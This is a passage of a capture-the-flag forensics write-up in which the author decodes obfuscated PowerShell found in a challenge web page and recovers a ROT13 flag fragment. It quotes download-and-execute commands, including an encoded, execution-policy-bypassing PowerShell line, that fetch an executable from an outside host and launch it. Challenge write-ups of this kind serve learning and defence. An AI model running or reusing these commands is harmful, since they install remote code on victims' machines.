 ```php
        <div class="image"> <img src="depressed_pokemon_trainer.png" alt="Pikachu"> </div>
    </div>
</body>

</html>
$env:WEB_REQUEST -Uri http://dns-server:6969/explorer.exe -OutFile explorer.exe; Start-Process explorer.exe
```
and

```php
powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7AA==
```

Decoding the above base64 string yields `Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe;`

Afterwards, I found another segment. 
```php
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA
```
Decode base64: 
`Invoke-WebRequest -Uri http://dns-server.online:6969/explore.exe -OutFile explore.exe; Start-Process explore.exe; ='gurl_jnag_gurve'`

`gurl_jnag_gurve` looks quite similar to a flag :)), I used ChatGPT and found out it's ROT13 encoded :))), guessing until death!!!

![](/image/chall7_7.png)

--> `they_want_their`

Here comes the **one wrong step, one mile astray** moment. From those code snippets and the mentioned command, I only interpreted the PowerShell command executing `explore.exe` in connection with the challenge name `Malware Chall Disclaimer`. As a result, I misunderstood that I had to dive into researching that malware to trace it down :)), wasting two hours trying to trace and reverse-engineer that `explore.exe` while also attempting to decipher it before reaching the solution.

![](/image/momvcl.png)

I should have checked the website itself to see if there was anything significant.

![](/image/chall7_5.png)

Thank goodness! If I hadn't discovered this by accident before the competition was over, I might have given up on forensics altogether.

![](/image/chall7_6.png)
